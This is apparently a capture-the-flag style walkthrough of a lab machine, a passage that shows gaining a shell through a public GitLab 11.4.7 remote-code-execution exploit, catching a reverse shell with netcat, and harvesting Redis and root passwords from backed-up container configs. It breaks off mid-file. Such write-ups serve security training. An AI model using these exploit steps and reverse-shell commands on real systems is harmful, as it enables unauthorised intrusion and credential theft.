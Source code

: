 ## Foothold

### GitLab 11.4.7 RCE

- https://github.com/Algafix/gitlab-RCE-11.4.7 -> bash [yes]
  - CVE-2018-19571
  - CVE-2018-19585

```console
└─╼$ python rce_script.py -u qwe -p 1q2w3e4r -g http://10.10.10.220:5080 -l 10.10.14.14 -P 1234 bash
[+] Login successful.
[+] Creating payload in bash
[+] Payload sent.
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.220] 34794
bash: cannot set terminal process group (522): Inappropriate ioctl for device
bash: no job control in this shell
git@gitlab:~/gitlab-rails/working$ id
uid=998(git) gid=998(git) groups=998(git)
git@gitlab:~/gitlab-rails/working$ uname -a
Linux gitlab.example.com 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

### git -> container root

- enum backup dir

```console
╔══════════╣ Unexpected in /opt (usually empty)
total 24
drwxr-xr-x 1 root root 4096 Apr  5  2022 .
drwxr-xr-x 1 root root 4096 Apr  5  2022 ..
drwxr-xr-x 2 root root 4096 Apr  5  2022 backup
drwxr-xr-x 1 root root 4096 Apr  5  2022 gitlab
```

- enum config of docker container
  - redis password: `YG65407Bjqvv9A0a8Tm_7w`
  - smtp password: `wW59U!ZKMbG9+*#h` => also root's password

```console
git@gitlab:/opt/backup$ ls -al
total 112
drwxr-xr-x 2 root root  4096 Apr  5  2022 .
drwxr-xr-x 1 root root  4096 Apr  5  2022 ..
-rw-r--r-- 1 root root   904 Apr  5  2022 docker-compose.yml
-rw-r--r-- 1 root root 15150 Apr  5  2022 gitlab-secrets.json
-rw-r--r-- 1 root root 81492 Apr  5  2022 gitlab.rb
git@gitlab:/opt/backup$ cat docker-compose.yml
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
```